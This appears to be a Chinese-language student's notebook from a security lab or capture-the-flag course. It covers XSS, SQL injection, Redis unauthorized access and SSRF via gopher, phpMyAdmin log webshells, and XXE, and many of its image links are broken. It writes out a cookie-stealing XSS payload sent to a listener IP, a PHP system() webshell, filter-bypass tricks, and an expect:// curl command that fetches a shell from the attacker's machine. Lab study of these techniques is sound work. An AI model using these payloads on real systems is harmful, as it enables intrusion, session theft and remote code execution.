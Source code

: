 ##### day1 xss

启端口监听：

> python -m SimpleHTTPServer Port
>
> python3 -m http.server port

<script>document.write("<img src='http://172.16.10.147:10086/?id=" + document.cookie + "'>")</script>   ##本机Ip

key1:cookie  登录页面是后缀admin  账号root 密码空

key2:sql注入（注意登录后台删除login.php)可能存在空格过滤使用/**/ 或者 双写绕过  ＃过滤使用%23

显示位load_file(“/var/key2”)显示key2

key3:在tmp目录下![image-20230418100711102](../AppData/Roaming/Typora/typora-user-images/image-20230418100711102.png)

##### day2  Redis未授权访问

> ![image-20230418091942694](../AppData/Roaming/Typora/typora-user-images/image-20230418091942694.png)

> 需要gcc环境编译  在redis目录下make
>
> 环境准备：一台server  一台client
>
> ./redis-server启动服务端
>
> ./redis-cli -h server的IP

> 增：set 键 值
>
> 改：同上
>
> 查：get 键
>
> 删：del
>
> 设置生命周期：expire key  x秒
>
> ttl 键 查看剩余生命周期    
>
> 设置自增：incr key（通过运行来增）

> ###### **哈希操作**
>
> hset  key   里面项目key  值即数据
>
> flushdb   flushall

> ###### 漏洞利用
>
> config set dir 目录位置  (设置保存位置)
>
> 设置保存文件名config set dbfilename  xxx   执行save
>
> 就可在xxx中写shell
>
> ![image-20230418113306880](../AppData/Roaming/Typora/typora-user-images/image-20230418113306880.png)
>
> 

nc IP port 连接成功之后会自动转一行



- **使服务器端支持公钥登录设置**

![image-20230418143316776](../AppData/Roaming/Typora/typora-user-images/image-20230418143316776.png)

![image-20230418142346423](../AppData/Roaming/Typora/typora-user-images/image-20230418142346423.png)

![image-20230418142450721](../AppData/Roaming/Typora/typora-user-images/image-20230418142450721.png)

![image-20230418142509277](../AppData/Roaming/Typora/typora-user-images/image-20230418142509277.png)

![image-20230418142626033](../AppData/Roaming/Typora/typora-user-images/image-20230418142626033.png)

~ (root的家目录） .表示隐藏文件



![image-20230418145506212](../AppData/Roaming/Typora/typora-user-images/image-20230418145506212.png)

==**save  save save!!!**==

shift+page up 翻页

bash start.sh

docker ps -a

![image-20230418161908237](../AppData/Roaming/Typora/typora-user-images/image-20230418161908237.png)

##### D2 Redis SSRF复现

> ![image-20230418193723551](../AppData/Roaming/Typora/typora-user-images/image-20230418193723551.png)
>
> ![](../AppData/Roaming/Typora/typora-user-images/image-20230418193755453.png)
>
> ![image-20230418205220525](../AppData/Roaming/Typora/typora-user-images/image-20230418205220525.png)

key3在计任务下/var/spool/cron/root

key3是base64编码的  要解码使用echo 那串字符  |based64  -d

==**一定别忘了save 求你了**==

若在上方浏览器框中输入，要注意字符丢失的问题如＋号

若用BP抓包要用转码  转关键字和全部转码都可以





##### D3

gopher协议：必须加端口，默认端口也要写。第一个字符不传输

格式：gopher：//ip：port/

%0A—>\r

0d%—>\n

![image-20230419112521572](../AppData/Roaming/Typora/typora-user-images/image-20230419112521572.png)

```
gopher://192.168.202.135:6379/_set
```

###### 视频里第三题，无环境XXE

![image-20230419163640346](../AppData/Roaming/Typora/typora-user-images/image-20230419163640346.png)

![image-20230419163657645](../AppData/Roaming/Typora/typora-user-images/image-20230419163657645.png)

###### 第四题（或者用eval函数改为post请求，连蚁剑找key2）本题操作机为kali

![image-20230419163743623](../AppData/Roaming/Typora/typora-user-images/image-20230419163743623.png)

> 1.phpinfo()页面获得路径
>
> 2.扫描目录获得后缀为phpmyadmin登录路径
>
> **登录名root  pw为空**
>
>   打开log功能更改logfile路径为1获得的网站根路径
>
> 3.在库中写入一句话木马：
>
> ```
> select “<?php system($_GET[‘1’]); ?>”;
> ```
>
> 1=dir
>
> <img src="../AppData/Roaming/Typora/typora-user-images/image-20230419164940777.png" alt="image-20230419164940777" style="zoom:200%;" />
>
> 
>
> 

##### D4 xxe的题实操

> 1.IP加协议头Https是访问不了的，需要查看证书在 Windows\system32\drivers\etc下的hosts文件中加入IP和域名，然后用域名访问
>
> 2.扫描目录得到rebots.txt路径并访问  再次得到xxe路径以及admin.php路径
>
> 访问抓包（注意：考试机代理需要自己设置，还要导入证书才可抓包）
>
> 3.抓包中写入xml代码（查找目录，获得第一个key)
>
> ```<!DCOTYPE xyz[    <!ENTITY  下方标签内的参数 SYSTEM    "" >   ]>```
>
> XML介绍
>
> 。标签对大小写敏感
>
> 。标签必须闭合
>
> 。必须有根元素

> 引号内的命令：``` expect://cat$IFS./xxx```
>
> 如遇不能直接读取：则使用base64下编译后读取：php://filter/read=convert.base64-encode/resource=./index.php  之后再解开

> 4.写shell,连蚁剑。注意设置里面https忽略勾选
>
> 在考试机写shell.php在此文件所在位置cmd中用python启端口
>
> 还是在BP中用exep:///usr/bin/curl$IFS-O$IFS’shell.php所在机的IP‘

> 5.在虚拟终端里面提权(见D3里第三题的截图)
>
> 

$IFS=空格，抓包过滤空格用此代替

![image-20230420165142925](../AppData/Roaming/Typora/typora-user-images/image-20230420165142925.png)





